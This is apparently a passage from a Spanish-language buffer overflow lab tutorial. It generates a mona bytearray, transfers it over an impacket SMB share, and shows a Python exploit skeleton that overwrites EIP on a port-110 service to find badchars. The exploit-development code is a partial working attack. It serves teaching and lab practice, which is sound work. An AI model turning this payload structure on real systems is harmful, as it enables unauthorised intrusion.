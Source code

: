 Ahora se creará un archivo con una bytearray dentro del directorio.

Nota: El Null byte “\x00” por lo general será un problema por lo que es mejor excluirlo de primeras.

```bash
# Esto creará una cadena de bytes dentro del directorio 
# de trabajo.
!mona bytearray

	# Se crea un bytearray excluyendo el "\x00"
	!mona bytearray -cpb '\x00'
```

![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 1.png)

Esto creará un archivo “bytearray.txt” dentro del directorio “Analysis” con el bytearray.

![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 2.png)

## Eliminación de badchars

Ahora se tomará este bytearray y se enviará como payload en el script, esto con la idea de poder identificar los badchars, se sabrá que un caracter es un badchar porque este no aparecerá en la sección de memoria del ESP.

Primero se pasará este bytearray a la máquina local del atacante por medio de SMB.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 3.png)

Ahora este bytearray se debe incorporar en el script para que quede de esta forma:

```bash
#!/usr/bin/python3

import socket
import sys

# Variables globales
ip_add = "192.168.0.104" # IP destino
port = 110 # Puerto destino

# Estructura del payload
before_eip = b"A"*2606
eip = b"B"*4
after_eip = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip
```